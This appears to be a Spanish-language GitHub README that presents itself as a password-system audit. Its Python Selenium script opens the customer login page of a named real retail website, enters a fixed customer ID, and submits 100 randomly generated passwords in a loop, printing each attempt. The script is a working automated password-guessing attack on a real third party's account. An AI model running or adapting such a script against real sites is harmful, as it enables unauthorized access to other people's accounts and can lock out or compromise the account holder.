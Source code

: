 # Automatización de credenciales con python y selenium
Auditar la implementación de los sistemas de creación, actualización, acceso, transmisión y recuperación de contraseñas

## Selenium 
Selenium es un entorno de pruebas que se utiliza para automatizar servicios de sowftware.

## Instalación
Usa el pip en la consola para instalar el paquete de selenium.

```bash
pip install selenium
```
## Uso de python con selenium

```python
import string
import time
import random
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.action_chains import ActionChains
driver = webdriver.Chrome()
driver.get('https://www.wei.cl/cliente/ingreso')
time.sleep(5)
letters = string.ascii_letters + string.digits
for x in range(100):
    usr = driver.find_element_by_id("client-username")
    usr.clear()
    usr.send_keys("20189579-0")
    psw = driver.find_element_by_id("client-password")
    str = ''.join(random.choice(letters) for i in range(random.randrange(6,10)))
    psw.send_keys(str)
    print(str)
    
    #Está variable permite efectuar un evento click a la página web mediante el xpath
    clk = driver.find_element_by_xpath('//*[@id="form-ingreso-window"]/button').submit()
    time.sleep(1)
    psw.clear()
```

